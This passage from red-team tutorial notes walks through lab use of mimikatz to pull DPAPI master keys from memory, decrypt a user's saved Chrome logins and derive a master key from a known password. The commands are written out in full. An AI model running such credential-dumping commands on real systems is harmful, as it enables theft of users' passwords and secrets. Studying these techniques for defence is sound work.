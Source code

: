 If you escalated privilges, you can try looking for the master key in memory:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
sekurlsa::dpapi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We see there is the master key for user `spotless`:

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-03-34.png)

Let's now use that master key for `spotless` to decrypt those Chrome secrets we could not earlier:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-13-16-05-55.png)

Additionally, note that if the user is not logged on, but you have their password, just spawn a process with their creds and repeat the above steps to retrieve their secrets.

### Retrieving MasterKey with User's Password

Same could be achieved if user's SID, their logon password and master key's GUIDs are known:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```
{% endcode-tabs-item %}
{% endcode-tabs %}
